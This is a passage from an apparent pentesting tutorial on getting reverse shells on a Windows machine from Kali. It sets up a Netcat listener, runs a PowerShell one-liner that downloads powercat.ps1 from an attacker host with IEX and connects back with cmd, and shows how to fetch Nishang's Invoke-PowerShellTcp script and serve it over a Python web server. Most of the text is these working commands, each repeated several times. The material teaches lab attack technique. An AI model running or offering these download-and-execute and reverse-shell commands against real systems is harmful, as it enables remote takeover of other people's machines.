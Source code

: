 ![](https://blogger.googleusercontent.com/img/a/AVvXsEjHq78EVsSCI_qVLOzm2bj07tpSUqvSnK0_-o0FHEqfxlDjRW-oYqA1sOa7WdHmeQTA68DtSJ1PiEpl_wcutpfd6C_YYJFLTRif6QlQW68ls6pcCG72f4SdsNk6UwG_KtXAe24ivrM-L8r7Tobwbd8jBjH2jMY_-Ippeak6csFU5MLrQB1mrVvKkq8qQg=s16000)

Users must start a Netcat listener on port 4444 for obtaining a reverse connection by using the command

nc -vlp 4444.

nc -vlp 4444.

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 4444.
</pre>

So now we need to boot up our Windows machine and run the PowerShell command inside the command prompt (CMD). Please note that the IP address should be your local IP address (Kali IP address).

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.3/powercat.ps1');powercat -c 192.168.1.3 -p 4444 -e cmd"
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEg4o7lllnEGOuEt7O5FhzmK_VZfHJs7RTTIEH180FFYuQBT3D0OpNuZmTHdAWGpl_kd_vM8I0ms-9jruHLREl4rM-Kw_Rp61MI-7aas0WdLg8MQB_yEwWW0GOf6JSCJ3VK4G-9J61v_WE537nRQEAr5_6p7JnVBwPKSBCHG31qHx1LJBFtJIxygLjvt8Q=s16000)

You will get the reverse shell in the Netcat listener once the command is executed, can use the command **whoami** to see whether we get the correct shell. This will tell you the user account type logged in.

![](https://blogger.googleusercontent.com/img/a/AVvXsEiaaxiSHW0OPUFyaLZv5Eq90cgEoa20nRD6nDS2Kj0XkMb60G-AZ4nw42aE8rUO3b9Kb-THFlmAxVj2M7OcFMlSpjP-bHKDQa1HQSO3anFStbArAiFosB0GPEqtu5i9wPoiqBXx0Qn6gZdz6caKiVRLHyM9SP7F6sWasFbrUjKCRphq6kZqroK5hYBSCQ=s16000)

### Invoke-PowerShellTcp (Nishang)

This PowerShell script can be used to Reverse or Bind Interactive PowerShell. To link up the script to a port, we need to use a Netcat listener.

This website, which is mentioned below, should be visited.

Since it is a Github website, you should indeed download the link.

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
</pre>

Through wget, the script is downloaded, now we have to transfer this file through python sever.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80
